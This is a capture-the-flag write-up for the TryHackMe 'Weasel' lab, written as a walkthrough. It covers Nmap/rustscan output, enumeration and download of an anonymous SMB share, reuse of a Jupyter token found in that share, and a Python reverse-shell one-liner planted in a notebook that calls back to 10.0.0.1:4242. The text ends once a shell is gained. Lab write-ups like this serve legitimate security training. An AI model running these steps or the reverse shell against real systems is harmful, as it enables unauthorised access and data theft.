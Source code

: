   ![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/f70b451f-cdde-4a6a-9c29-a88ef379d3d4)
  https://tryhackme.com/room/weasel

## Enumeration:

I started with the quick rustscan to scan for the open ports & services on the target. I found 15 open ports on the host:

```bash
sudo rustscan -a 10.10.165.102  -- -sC -sV -vv -oN weasel_nmap
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/72e347fb-ef6c-475a-b9d9-1ec51e111ab8)

```bash
PORT      STATE SERVICE       REASON          VERSION
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBae1NsdsMcZJNQQ2wjF2sxXK2ZF3c7qqW3TN/q91pWiDee3nghS1J1FZrUXaEj0wnAAAbYRg5vbRZRP9oEagBwfWG3QJ9AO6s5UC+iTjX+YKH6phKNmsY5N/LKY4+2EDcwa5R4uznAC/2Cy5EG6s7izvABLcRh3h/w4rVHduiwrueAZF9UjzlHBOxHDOPPVtg+0dniGhcXRuEU5FYRA8/IPL8P97djscu23btk/hH3iqdQWlC9b0CnOkD8kuyDybq9nFaebAxDW4XFj7KjCRuuu0dyn5Sr62FwRXO4wu08ePUEmJF1Gl3/fdYe3vj+iE2yewOFAhzbmFWEWtztjJb
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOGl51l9Z4Mg4hFDcQz8v6XRlABMyVPWlkEXrJIg53piZhZ9WKYn0Gi4fKkzo3blDAsdqpGFQ11wwocBCSJGjQU=
|   256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOHw9uTZkIMEgcZPW9Z28Mm+FX66+hkxk+8rOu7oI6J9
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-02T09:37:02+00:00
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Issuer: commonName=DEV-DATASCI-JUP
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-03-12T11:46:50
| Not valid after:  2023-09-11T11:46:50
| MD5:   1671 b190 2eb6 b15f 0c3f ab16 d3e6 6582
| SHA-1: c007 197a dd30 f17f 2bdb 65f8 1804 fc6f d081 c7c9
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQPvhxvXPCnJtIgyPRvn3WzjANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9ERVYtREFUQVNDSS1KVVAwHhcNMjMwMzEyMTE0NjUwWhcNMjMw
| OTExMTE0NjUwWjAaMRgwFgYDVQQDEw9ERVYtREFUQVNDSS1KVVAwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQD1iFFVyhggpi7wL6i/UpivF4ynWEUALMJh
| v8t3ypgM+Vrdp7sqDQciG7YMfGhYyz3Za4G03Ppgi+DUu/2qsYfGJbllz8IRaelq
| 5G5DPGSy0lYItHbWEvPbPSWTcEOrxQMIv98lBx5fHbmzIP1mEeIiS7p8bpWGfFuR
| Y/zvTOOWRHcT09/z+6YDdCTztLIgtrE+ZFW1yNUYxqCPl6EdKutmIzDUCDFUyvhq
| jOuv1R3M9XGPGomb99tAdPWQeXwjQfNrJdEsJ0DBz3D9T2pbfVwKINfDt1qCQfPO
| zu9v8OZhe+BYvS6289GNmCbiaCVbeJK2yokPdMFx4uLIT85U7IKBAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAiVcJyTne2cl+bKhmctqIva2DA/v9P0odeZe1hO8TG7J4UZGeK5bOqwdE
| bPDKBuxD+QYXWLm+/eHgKKMwKemYp4iDcIMGfb5UgzkRe8RaI5kKiiPQSarFKIZe
| WphDWZrLDo9IN58b081R4k82IfGv7yXtIjZcral4fCEHhhTdVE2CvHvE1JGXSWbY
| NHoufyrjizsaLHAchdnuHgaz+cgcFgR/hD61vQpc8pW+v6xDNVtMFVdv7lLtbWov
| /dcC6Yd2jtk8sP7ue7K+FOhLaw9UDbji3XCXn0FoJwKBza/K8smP0M/3fHIqoFA2
| mc4b7D2CUHt9FNWIWyz9evlNAOixvg==
|_-----END CERTIFICATE-----
|_ssl-date: 2023-07-02T09:37:11+00:00; +2s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8888/tcp  open  http          syn-ack ttl 127 Tornado httpd 6.0.3
|_http-favicon: Unknown favicon MD5: 97C6417ED01BDC0AE3EF32AE4894FD03
| http-methods: 
|_  Supported Methods: GET POST
| http-robots.txt: 1 disallowed entry 
|_/ 
|_http-server-header: TornadoServer/6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 44682/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41197/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38094/udp): CLEAN (Failed to receive data)
|   Check 4 (port 61785/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-02T09:37:05
|_  start_date: N/A
```

Few observables from the port scan results:

```
- SMBv2 is enables but message signing is not enforceed.
- RDP is enbale on port 3389 & target name is: DEV-DATASCI-JUP
- port 5985 is open which powershell remoting is enabled.
- port 8888 is open & running TornadoServer/6.0.3 which is hosting Jupyter notebook.
```

### SMB enumeration:

Since the SMB is enabled, I started enumerating the network shares which is available for me. I used SMBmap to list all shares:

```bash
smbmap -H weasel.thm -u RandomUser
```
I observed that I have Read & Write access to "datasci-team" share & Read access to IPC$ share.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/0b11cea9-cf6e-48e2-b30b-1925210a35f8)

When checked for "datasci-team" share, I observed multiple files present in it, which I listed using smbmap:

```bash
smbmap -R datasci-team -H weasel.thm -u DoesNotExist
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/dd41e754-5ae5-4ddb-89cc-4848a4a26759)

I downloaded all those files in my local system after connecting via Smbclient:

```bash
smbclient \\\\weasel.thm\\datasci-team -U "DoesNotExist"

smb: \> prompt off #to turn off warnings
smb: \> recurse on #to turn on recursive mode
smb: \> mget * #to download everything from current file path.
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/37532ed1-c2f3-48cb-a847-54743fdcfe28)

After downloading all the files, I went through them & found a Jupyter-token inside one of the file.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/2af6f790-3a09-4a3f-926d-f87e2cd0ef65)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

From the port scan results I was already aware that port 8888 is running the tornado server & hosting Jupyter notebook in it, so I went to the server & found an option to login using jupyter token:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/b5e2db75-db1b-4584-ac65-29562b8e43ee)

I used the Jupyer token which I found during my SMB scan to login into the server & I logged in successfully:
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/485629a3-b49a-4645-b962-2500e3af6e86)

After logging in I found the same files which I observed when I enumerated through the "**datasci-team**" share. Then I opened of of the Machine learning file "weasel.ipynb" & went through it's content:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/316183bd-3700-45f2-b293-3780eebd377b)

I found that there are modules running inside the file & we can also our own module which will be executed by Python, so I used one of the Python reverse shell one-liner & added to the file.

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

After running the above code I quickly got the shell back to my netcat listener as a "dev-datasci" user.(pwn3d!🙂)
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/b034c290-d9a1-4403-a173-c1b317f3abcc)


